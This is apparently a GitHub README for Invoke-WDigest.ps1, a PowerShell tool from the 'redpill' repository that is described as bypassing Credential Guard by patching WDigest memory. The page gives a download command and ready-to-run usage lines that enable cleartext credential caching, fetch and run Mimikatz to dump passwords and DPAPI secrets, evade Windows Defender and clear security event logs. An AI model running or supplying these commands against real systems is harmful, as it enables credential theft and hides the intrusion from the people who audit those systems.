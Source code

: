 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq, @BenjaminDelpy|

<br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials *|<b><i>false</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>false</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|

<b><i>* Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system.</i></b><br />
<b><i>Remark: Cmdlet will clean eventvwr ( mimikatz event::clear ) security logs if invoked -manycats together with -module parameter.</i></b>


<br />

**download Invoke-WDigest.ps1:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'


[FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz (sekurlsa::wdigest)
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
   - WDigest will store (runas) credential input by user in clear-text in memory
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch exists for demonstration effects, and can not be
   used remotely because it requires target user interaction (prompt cred)
   and resource UserName password knowledge ..
```

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.png)

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest2.png)

<br />

![ProactiveDefense](https://user-images.githubusercontent.com/23490060/219057639-902cc82a-43a3-4391-9927-4b55e532a78c.png)



<br />

<b><i>REMARK:Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system ..</i></b>